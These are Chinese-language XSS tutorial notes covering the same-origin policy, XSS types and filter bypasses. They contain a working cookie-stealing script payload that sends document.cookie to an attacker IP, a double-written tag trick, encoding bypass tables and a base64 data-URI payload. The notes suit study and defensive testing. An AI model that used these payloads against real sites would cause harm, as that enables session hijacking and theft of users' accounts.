

# js 注释
```
// /**/
```
# 同源策略
协议 域名 端口 一致
部分标签在引用第三方资源时，不受同源策略的限制
# 分类
反射 弹窗 客户端
存储  数据库 服务器
dom 页面js加载 客户端
# 利用
反射（钓鱼攻击）
```
<script> document.location = 'http://192.168.3.103:8000/pkxss/xcookie/cookie.php?cookie=' + document.cookie; </script>
将本地的cookie发送到192.168.3.103::8000 （攻击机IP）的服务器上

攻击机登录
```

# 绕过
## 双写大小写
```


<scrscriptipt>alert(/xss/)</scrscriptipt>
```
## 编码绕过
### url编码
• /的URL编码为%2F • # : %23 ; . :%2e ； + :%2b ; • < :%3c ; >: %3e ; ! :%21 ; 空格：%20 ;换行:%0a • &: %26; ( :%28 ; ) :%29; " :%22 ; ' :%27
### HTML实体编码
• "<"的编码是:&lt; • ">"的编码是:&gt;
### 进制绕过
例如："<" • html十进制:&#60; • html十六进制:&#x3c;
### JavaScript编码：
js提供了四种字符编码的策略 • 1、三个八进制数字，如果不够个数，前面补0,例如"<"编码为:\074； • 2、两个十六进制数字,如果不够个数，前面补0,例如"<"编码为:\x3c； • 3、四个十六进制数字,如果不够个数，前面补0,例如"<"编码为:\u003c； (unicode编码) • 4、对于一些控制字符,使用特殊的C类型的转义风格（例如\n和\r）
### base64编码绕过
```
Data协议使用方法 data:资源类型;编码，内容 到目前为止遇到使用base64编码的情况大多数是这样
<a href="可控点"> <iframe src="可控点"> 在这种情况下如果过滤了 <,>,' , ", javascript的话 那么要xss攻击可以这样写然后利用 base64编码！ 将 整条base64编码为: PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==
```